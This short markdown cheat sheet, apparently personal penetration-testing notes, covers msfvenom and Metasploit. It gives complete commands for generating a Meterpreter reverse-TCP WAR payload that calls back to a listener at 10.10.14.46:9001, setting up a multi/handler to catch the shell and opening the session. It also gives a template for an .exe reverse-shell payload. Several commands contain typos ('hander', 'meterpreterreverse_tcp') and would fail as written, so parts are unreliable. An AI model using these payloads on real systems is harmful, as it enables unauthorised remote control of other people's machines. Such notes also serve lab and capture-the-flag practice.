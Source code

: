 # msfvenom

## Overview

msfvenom is a payload generator.
You can create reverse shells in many different formars

## Usage

### Getting a war payload

Create the payload

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f war -o payload.war

Now start metasploit

	msfconsole

Use the handler that is gonna handle the reverse connection from the payload

	use exploit/multi/hander

Set the payload that we created with msfvenom

	set payload windows/x64/meterpreterreverse_tcp

Set the interfacte that the handler is gonna listen on waiting for the reverse connection

	set LHOST tun0

Set the port specified in the payload in msfvenom

	set LPORT 9001

Run the handler

	exploit -j

Now execute the war payload (by accessing the jsp inside) and we should have a connection.
When we have a session do

	sessions -i 1

To interact with it


### Getting a .exe payload

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>